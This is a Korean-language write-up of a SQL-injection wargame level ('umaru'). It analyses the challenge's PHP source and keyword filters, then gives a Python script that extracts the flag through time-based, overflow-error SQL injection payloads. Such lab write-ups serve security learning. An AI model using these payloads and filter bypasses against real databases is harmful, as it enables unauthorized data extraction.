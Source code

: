 # Lord of SQL Injection No.25 - umaru

## 문제 출제 의도
GET 방식으로 받아와 완성한 SQL Query 문의 출력 없이 php코드를 분석하여 flag값이 바뀌지 않도록 유도하며 Error based SQL Injection을 한다.

## 소스 코드 분석
```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();

  function reset_flag(){
    $new_flag = substr(md5(rand(10000000,99999999)."qwer".rand(10000000,99999999)."asdf".rand(10000000,99999999)),8,16);
    $chk = @mysql_fetch_array(mysql_query("select id from prob_umaru where id='{$_SESSION[los_id]}'"));
    if(!$chk[id]) mysql_query("insert into prob_umaru values('{$_SESSION[los_id]}','{$new_flag}')");
    else mysql_query("update prob_umaru set flag='{$new_flag}' where id='{$_SESSION[los_id]}'");
    echo "reset ok";
    highlight_file(__FILE__);
    exit();
  }

  if(!$_GET[flag]){ highlight_file(__FILE__); exit; }

  if(preg_match('/prob|_|\./i', $_GET[flag])) exit("No Hack ~_~");
  if(preg_match('/id|where|order|limit|,/i', $_GET[flag])) exit("HeHe");
  if(strlen($_GET[flag])>100) exit("HeHe");

  $realflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru where id='{$_SESSION[los_id]}'"));

  @mysql_query("create temporary table prob_umaru_temp as select * from prob_umaru where id='{$_SESSION[los_id]}'");
  @mysql_query("update prob_umaru_temp set flag={$_GET[flag]}");

  $tempflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru_temp"));
  if((!$realflag[flag]) || ($realflag[flag] != $tempflag[flag])) reset_flag();

  if($realflag[flag] === $_GET[flag]) solve("umaru");
?>
```
-----
```php
  function reset_flag(){
    $new_flag = substr(md5(rand(10000000,99999999)."qwer".rand(10000000,99999999)."asdf".rand(10000000,99999999)),8,16);
    $chk = @mysql_fetch_array(mysql_query("select id from prob_umaru where id='{$_SESSION[los_id]}'"));
    if(!$chk[id]) mysql_query("insert into prob_umaru values('{$_SESSION[los_id]}','{$new_flag}')");
    else mysql_query("update prob_umaru set flag='{$new_flag}' where id='{$_SESSION[los_id]}'");
    echo "reset ok";
    highlight_file(__FILE__);
    exit();
  }
```
- 사용자 정의 함수 reset_flag()를 선언한다.

- md5()는 주어진 문자열의 해시값을 구해주는 함수이다.

- .rand(10000000,99999999)는 10000000부터 99999999까지의 랜덤값을 구해주는 함수이다.

- substr()은 첫 인자의 문자열중 두번째 인자 인덱스부터 세번째 인자만큼의 문자열을 잘라내어 리턴해주는 함수이다.

- 위의 함수들을 통해 새로운 flag값을 구해주어 $new_flag 변수에 저장해준다.

- 현재 세션값에 해당하는 아이디 행이 데이터 베이스에 있는지를 확인하여 $chk 변수에 리턴하여 저장해주고 그것이 있는지 없는지에 따라서 새로운 flag를 생성할지와 업데이트 할지를 결정한다.

----- 
```php 
if(!$_GET[flag]){ highlight_file(__FILE__); exit; }

if(preg_match('/prob|_|\./i', $_GET[flag])) exit("No Hack ~_~");
if(preg_match('/id|where|order|limit|,/i', $_GET[flag])) exit("HeHe");
if(strlen($_GET[flag])>100) exit("HeHe");
```
- flag가 입력 되있지 않을 때 현재 파일의 위치를 highlight_file 함수에 인자로 보내며 탈출한다.

- `prob`,`_`,`.` 가 GET 방식으로 입력한 flag에 있다면 `No Hack ~_~`를 출력하며 문제 풀이에 실패한다.

- `id`,`where`,`order`,`limit`가 입력한 flag에 있다면 `HeHe`를 출력하며 문제 풀이에 실패한다.

- GET 방식으로 입력한 flag 값의 길이가 100을 넘는다면 문제 풀이에 실패한다.
-----
```php
$realflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru where id='{$_SESSION[los_id]}'"));

@mysql_query("create temporary table prob_umaru_temp as select * from prob_umaru where id='{$_SESSION[los_id]}'");
@mysql_query("update prob_umaru_temp set flag={$_GET[flag]}");

$tempflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru_temp"));
if((!$realflag[flag]) || ($realflag[flag] != $tempflag[flag])) reset_flag();

if($realflag[flag] === $_GET[flag]) solve("umaru");
```
- realflag 는 세션값에 해당하는 flag 값을 받아온다.

- prob_umaru 테이블에서 세션값에 맞는 레코드를 불러와 임시 테이블을 생성하여 저장한다.

- 입력한 flag값으로 임시테이블의 flag을 바꾼다.

- 임시 테이블에서 받아온 flag의 값이 실제 flag의 값과 같을 경우 문제풀이에 성공하고 같지 않을 경우에 real_flag를 초기화 해주는 reset_flag() 함수를 실행한다.

## 지수 연산 최대치
이 문제는 Error based SQL Injection으로 지수 연산 최대치를 이용해 Error을 발생시켜 Error based SQL injection을 한다.

## 문제 풀이 방법
PHP 오류를 발생시켜 reset_flag함수를 실행시키지 않는다면 문제 풀이에 가능하다.
```python
import urllib.request
from urllib.parse import quote
import time

url = "http://los.eagle-jump.org/umaru_6f977f0504e56eeb72967f35eadbfdf5.php?flag="
key = ""    
len=16

for i in range(1, len+1):
    for j in range(48, 127):
        data = "(case(substr(flag from {} for 1)) when '{}' then ((sleep(4)+2)*9e307) else 9e307*2 end)".format(str(i), chr(j))
        print(data)
        data = quote(data)
        re = urllib.request.Request(url + data)
        re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36")
        re.add_header("Cookie", "PHPSESSID=gnpaf1s3c18g34i6ge3510du81")
        st = time.time()
        res = urllib.request.urlopen(re)
        et = time.time()

        if et-st > 4:
            key += chr(j).lower()
            print (key)
            break
print (key)
```
다음 코드를 구동하면 flag값이 나오며 해당 flag값을 입력하면 문제풀이에 성공한다